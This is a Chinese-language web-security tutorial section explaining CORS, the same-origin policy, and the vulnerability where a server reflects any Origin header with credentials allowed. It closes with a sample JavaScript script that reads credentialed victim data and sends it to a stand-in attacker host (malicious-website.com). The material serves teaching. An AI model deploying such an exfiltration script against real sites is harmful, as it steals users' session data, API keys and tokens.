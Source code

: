 # 跨域资源共享（CORS）

在本节中，我们将解释什么是跨域资源共享（CORS），描述一些基于跨域资源共享的攻击的常见示例，并讨论如何防范这些攻击。

## 什么是CORS（跨域资源共享）？

跨域资源共享（CORS）是一种浏览器机制，可实现对位于给定域外部的资源的受控访问。 它扩展了同源策略（SOP），并增加了灵活性。 但是，如果网站的CORS策略配置和实施不当，它也可能会导致基于跨域的攻击。 CORS并不是针对跨域攻击（例如跨站点请求伪造（CSRF））的保护措施。

![](../../.gitbook/assets/image%20%2816%29.png)

## 同源策略

同源策略是一种限制性的跨域规范，它限制了网站与源域之外的资源进行交互的能力。 起源于多年前的策略是为了响应潜在的恶意跨域交互，例如一个网站从另一个网站窃取了私人数据。 通常，它允许一个域向其他域发出请求，但不允许访问响应。

## 放宽同源策略

同源策略非常严格，因此已设计出各种方法来规避约束。 许多网站以要求完全跨域访问的方式与子域或第三方网站进行交互。 使用跨域资源共享（CORS）可以控制放宽同源策略。

## 由CORS配置问题引起的漏洞

许多现代网站都使用CORS允许从子域和受信任的第三方进行访问。 他们对CORS的实施可能包含错误或过于宽容，无法确保一切正常，这可能会导致可利用的漏洞。

服务器生成的来自客户端指定的Origin标头的ACAO标头

某些应用程序需要提供对许多其他域的访问。 维护允许域的列表需要不断的努力，任何错误都可能破坏功能。 因此，某些应用程序采取了有效地允许从任何其他域进行访问的简便方法。

一种方法是通过从请求中读取Origin标头，并包括一个响应标头，说明允许发出请求的原点。例如，考虑一个接收以下请求的应用程序：

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

然后，它会响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

这些标头指出，允许从请求域（malicious-website.com）进行访问，并且跨域请求可以包含cookie（Access-Control-Allow-Credentials：true），因此将在会话期间进行处理。

因为应用程序在Access-Control-Allow-Origin标头中反映了任意来源，所以这意味着绝对任何域都可以从易受攻击的域访问资源。 如果响应中包含任何敏感信息，例如API密钥或CSRF令牌，则可以通过在网站上放置以下脚本来检索此信息：

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```
